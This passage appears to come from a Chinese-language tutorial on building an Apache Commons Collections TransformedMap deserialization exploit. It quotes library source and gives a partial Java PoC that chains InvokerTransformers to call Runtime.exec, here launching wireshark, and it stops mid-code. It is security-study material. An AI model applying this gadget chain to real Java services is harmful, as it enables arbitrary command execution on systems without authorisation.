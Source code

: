 可以看到this.keyTransformer的类型是Transformer,而且是我们可以控制的，所以，在构造poc的时候只需要将他的值赋为我们精心构造的ChainedTransformer就行，按照这个思路，我们继续构造poc，现在的poc可以用TransformedMap的三个方法transformKey、transformValue、checkSetValue触发transform方法，但是我在构造的时候发现这三个方法的访问权限都是protected,也就是不能直接被外部访问，我们只有迂回一下了，TransformedMap类中一共有四个方法访问权限是public:两个构造函数，如下:

```java
    public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
    }

    public static Map decorateTransform(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        TransformedMap decorated = new TransformedMap(map, keyTransformer, valueTransformer);
        if (map.size() > 0) {
            Map transformed = decorated.transformMap(map);
            decorated.clear();
            decorated.getMap().putAll(transformed);
        }

        return decorated;
    }
```
另外两个如下：
```java
    public Object put(Object key, Object value) {
        key = this.transformKey(key);
        value = this.transformValue(value);
        return this.getMap().put(key, value);
    }

    public void putAll(Map mapToCopy) {
        mapToCopy = this.transformMap(mapToCopy);
        this.getMap().putAll(mapToCopy);
    }
```

可以看到put方法调用了transformKey以及transformValue,这两个方法又都调用了transform方法，所以，我们可以通过调用实例化一个TransforomedMap对象，然后调用对象的put方法，从而执行任意命令，此时的半成品poc如下：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class POC3 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers_exec = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"wireshark"})
        };

        Transformer chain = new ChainedTransformer(transformers_exec);

        HashMap innerMap = new HashMap();
        innerMap.put("value","asdf");

        Map outerMap = TransformedMap.decorate(innerMap,null,chain);
```